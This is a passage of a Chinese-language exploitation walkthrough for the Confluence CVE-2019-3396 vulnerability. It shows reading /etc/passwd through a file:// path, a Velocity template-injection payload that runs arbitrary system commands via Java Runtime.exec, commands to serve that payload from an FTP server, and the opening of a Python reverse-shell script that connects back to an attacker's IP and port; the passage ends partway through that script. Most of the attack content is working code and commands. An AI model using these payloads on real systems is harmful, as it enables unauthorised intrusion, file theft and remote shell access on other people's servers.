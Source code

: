 6.12以前的Confluence没有限制文件读取的协议和路径，我们可以使用`file:///etc/passwd`来读取文件，也可以通过`https://...`来加载远程文件。

![image](https://user-images.githubusercontent.com/84888757/172696732-c36c0db3-5583-4aab-8f9e-492ef49b8b8e.png)

## 4.2 命令执行
该文件是一个Velocity模板，我们可以通过模板注入（SSTI）来执行任意命令：
执行ifconfig

### 1、写r.vm文件
from https://github.com/pyn3rd/CVE-2019-3396

```
#set ($exp="exp")
#set ($a=$exp.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec($command))
#set ($input=$exp.getClass().forName("java.lang.Process").getMethod("getInputStream").invoke($a))
#set($sc = $exp.getClass().forName("java.util.Scanner"))
#set($constructor = $sc.getDeclaredConstructor($exp.getClass().forName("java.io.InputStream")))
#set($scan=$constructor.newInstance($input).useDelimiter("\\A"))
#if($scan.hasNext())
    $scan.next()
#end
```

### 2、python开启ftp服务
```
pip install pyftpdlib
python3 -m pyftpdlib -p  8888
```

![image](https://user-images.githubusercontent.com/84888757/172696994-aa2eb486-fb97-403f-9bc9-3a4541820d5e.png)

![image](https://user-images.githubusercontent.com/84888757/172697041-c07f7a6b-decc-4f4e-9682-499d6f170add.png)


## 4.3 反弹shell
### 4.3.1 python反弹shell（需靶机存在python环境）
### 1、写nc.py
```
# -*- coding:utf-8 -*-
#!/usr/bin/env python
"""
back connect py version,only linux have pty module
code by google security team
"""
import sys,os,socket,pty
shell = "/bin/sh"
def usage(name):
    print 'python reverse connector'
    print 'usage: %s <ip_addr> <port>' % name

def main():
    if len(sys.argv) !=3:
        usage(sys.argv[0])
        sys.exit()
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    try:
        s.connect((sys.argv[1],int(sys.argv[2])))
        print 'connect ok'
    except:
        print 'connect faild'
        sys.exit()
```